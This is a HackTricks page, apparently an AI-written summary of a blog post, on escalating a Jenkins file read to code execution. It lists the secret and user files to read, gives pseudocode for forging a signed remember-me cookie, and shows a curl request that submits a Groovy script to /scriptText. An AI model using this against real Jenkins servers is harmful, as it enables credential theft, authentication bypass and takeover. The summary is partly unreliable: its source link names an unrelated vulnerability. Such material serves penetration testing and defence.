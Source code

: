 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" must be enabled (default setting).
* **Access Levels:** Attacker needs Overall/Read permissions.
* **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  * **Username**
  * **User seed**
  * **Timestamp**
  * **Password hash**

**Secret Key Extraction**

* Extract cryptographic keys used for signing the cookie:
  * **Secret Key:** `$JENKINS_HOME/secret.key`
  * **Master Key:** `$JENKINS_HOME/secrets/master.key`
  * **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

    {% code overflow="wrap" %}
    ```javascript
    tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
    ```
    {% endcode %}
*   **Concatenate Data for Token:**

    {% code overflow="wrap" %}
    ```javascript
    token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
    ```
    {% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

    ```javascript
    key = toAes128Key(masterKey)  // Convert master key to AES128 key format
    decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
    if not decrypted.hasSuffix("::::MAGIC::::")
        return ERROR;
    macKey = decrypted.withoutSuffix("::::MAGIC::::")
    ```

**Signature Computation**

*   **Compute HMAC SHA256:**

    ```javascript
    mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
    tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
    ```

**Cookie Encoding**

*   **Generate Final Cookie:**

    {% code overflow="wrap" %}
    ```javascript
    cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
    ```
    {% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
  * Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  * Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

    ```bash
    curl -X POST "$JENKINS_URL/scriptText" \
    --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
    --header "Jenkins-Crumb: $CRUMB" \
    --header "Content-Type: application/x-www-form-urlencoded" \
    --data-urlencode "script=$SCRIPT"
    ```

    * Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

